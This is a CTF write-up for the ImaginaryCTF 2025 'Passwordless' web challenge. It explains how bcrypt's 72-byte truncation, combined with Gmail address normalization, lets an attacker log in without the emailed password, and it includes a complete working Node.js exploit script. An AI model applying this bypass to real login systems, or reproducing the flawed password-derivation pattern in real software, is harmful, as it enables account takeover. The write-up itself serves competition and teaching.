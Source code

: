 # ImaginaryCTF 2025: Passwordless Write-up

This write-up explains how to solve the "Passwordless" web challenge. The goal is to authenticate and retrieve the flag displayed on the dashboard without receiving the emailed temporary password.

## 1. Initial Analysis

The app is a simple Express + EJS site with in-memory SQLite storage. Key libraries:
- `normalize-email` to canonicalize user emails
- `bcrypt` to hash passwords

Relevant flows in `challenge/index.js`:
- Registration (`POST /user`): stores the user under `normalizeEmail(req.body.email)` and hashes a generated initial password built from the raw email.
- Login (`POST /session`): looks up the user by `normalizeEmail(email)` and verifies `bcrypt.compare(password, storedHash)`.

## 2. Identifying the Vulnerability

At registration, the app builds an initial password by concatenating the raw email with random bytes, then hashes it with bcrypt:

```javascript
const nEmail = normalizeEmail(req.body.email)
// ... length check applies to normalized email only
const initialPassword = req.body.email + crypto.randomBytes(16).toString('hex')
bcrypt.hash(initialPassword, 10, function (err, hash) {
  db.run("INSERT INTO users VALUES (?, ?)", [nEmail, hash], ...)
})
```

On login, it normalizes the submitted email and compares with bcrypt:

```javascript
const email = normalizeEmail(req.body.email)
const password = req.body.password
authenticate(email, password, (err, user) => {
  if (user && bcrypt.compareSync(password, user.password)) { /* success */ }
})
```

Key insight: bcrypt truncates input to the first 72 bytes. If the raw email is already ≥ 72 bytes, then the random suffix added at registration has no effect. Meanwhile, Gmail-style normalization (handled by `normalize-email`) removes dots and `+tags` from the local-part, so the stored `nEmail` can be short (passes the 64-char check) while the raw email is very long.

Therefore, we can:
- Register with a very long raw Gmail address (local-part ≥ 72 bytes pre-normalization), ensuring the bcrypt hash effectively depends only on the first 72 bytes of the local-part we chose.
- Log in using the normalized email and as password exactly those first 72 bytes.

## 3. Exploitation

How:
1. Choose Gmail domain so normalization applies.
2. Craft raw email: `A...A + "+" + B...B + "@gmail.com"` where `A...A` makes the normalized email length ≤ 64, and `A...A + "+" + B...B` has length ≥ 72.
3. Register with that raw email (any temporary password is “emailed” but unused).
4. Log in with:
   - Email: normalized form (dots removed, `+tag` dropped): `A...A@gmail.com`
   - Password: the first 72 bytes of `A...A + "+" + B...B` (exactly as sent at registration, before `@`).
5. Visit `/dashboard` to view the flag.


PoC:


```javascript
// One-shot PoC for the "passwordless" challenge
// Exploit bcrypt 72-byte truncation combined with email normalization.
// Usage: node exploit-poc.js http://passwordless.chal.imaginaryctf.org

const BASE = process.argv[2] || 'http://localhost:3000';

function buildEmails() {
  // Normalized gmail keeps local-part without dots and drops "+..."
  const normalizedLocal = 'a'.repeat(54); // 54 + '@gmail.com' (10) = 64
  const plusTag = 'b'.repeat(100); // large plus-tag to push raw length >= 72
  const rawLocal = normalizedLocal + '+' + plusTag; // raw >= 72
  const domain = '@gmail.com';
  const rawEmail = rawLocal + domain;
  const normEmail = normalizedLocal + domain; // what normalize-email likely stores
  // Bcrypt truncates to 72 bytes; password becomes first 72 bytes of rawEmail (i.e., of rawLocal)
  const password = rawLocal.slice(0, 72);
  return { rawEmail, normEmail, password };
}

function parseSetCookie(headers) {
  const set = headers.get('set-cookie');
  if (!set) return {};
  const jar = {};
  const cookies = Array.isArray(set) ? set : [set];
  for (const line of cookies) {
    const pair = line.split(';', 1)[0];
    const idx = pair.indexOf('=');
    if (idx > 0) {
      const name = pair.slice(0, idx).trim();
      const value = pair.slice(idx + 1).trim();
      jar[name] = value;
    }
  }
  return jar;
}

function jarToHeader(jar) {
  return Object.entries(jar)
    .map(([k, v]) => `${k}=${v}`)
    .join('; ');
}

async function fetchWithJar(url, opts, jar) {
  const headers = Object.assign({}, opts?.headers);
  if (jar && Object.keys(jar).length) headers['Cookie'] = jarToHeader(jar);
  const res = await fetch(url, { ...opts, headers, redirect: 'manual' });
  const newCookies = parseSetCookie(res.headers);
  Object.assign(jar, newCookies);
  return res;
}

async function main() {
  if (typeof fetch !== 'function') {
    console.error('This PoC requires Node 18+ with global fetch.');
    process.exit(1);
  }

  const { rawEmail, normEmail, password } = buildEmails();
  const jar = {};

  console.log('[+] Crafted emails:');
  console.log(`    Raw:  ${rawEmail}`);
  console.log(`    Norm: ${normEmail}`);
  console.log(`    Pwd:  ${password}`);

  // 1) Register account with very long raw email
  console.log(`[+] Registering ${normEmail} (raw length ${rawEmail.length})`);
  let res = await fetchWithJar(`${BASE}/user`, {
    method: 'POST',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
    body: `email=${encodeURIComponent(rawEmail)}`,
  }, jar);
  console.log(`[+] Register response: ${res.status}`);

  // 2) Login using normalized email and truncated password (first 72 bytes of raw email)
  await new Promise((r) => setTimeout(r, 300));
  console.log('[+] Logging in with known truncated password');
  res = await fetchWithJar(`${BASE}/session`, {
    method: 'POST',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
    body: `email=${encodeURIComponent(normEmail)}&password=${encodeURIComponent(password)}`,
  }, jar);
  console.log(`[+] Login response: ${res.status}`);

  // 3) Fetch dashboard with session cookie
  await new Promise((r) => setTimeout(r, 300));
  console.log('[+] Fetching dashboard');
  res = await fetchWithJar(`${BASE}/dashboard`, { method: 'GET' }, jar);
  const html = await res.text();
  console.log(`[+] Dashboard: ${res.status}`);

  const m = html.match(/<span id="flag">([\s\S]*?)<\/span>/);
  if (m) {
    const flag = m[1].trim();
    console.log(`[+] Flag: ${flag}`);
  } else {
    console.log('[!] Flag span not found. Full body follows:\n');
    console.log(html);
  }
}

main().catch((e) => {
  console.error('[!] PoC error:', e);
  process.exit(1);
});
```

Why it works:
- Bcrypt ignores everything after 72 bytes, so the random suffix appended at registration is ineffective when the raw email is long enough.
- The app stores and looks up users by normalized email, but derives the initial password from the raw email, creating a mismatch exploitable via Gmail normalization.

## 4. The Flag

On successful login, the dashboard renders the flag inside:

```ejs
<span id="flag"><%- process.env.FLAG %></span>
```

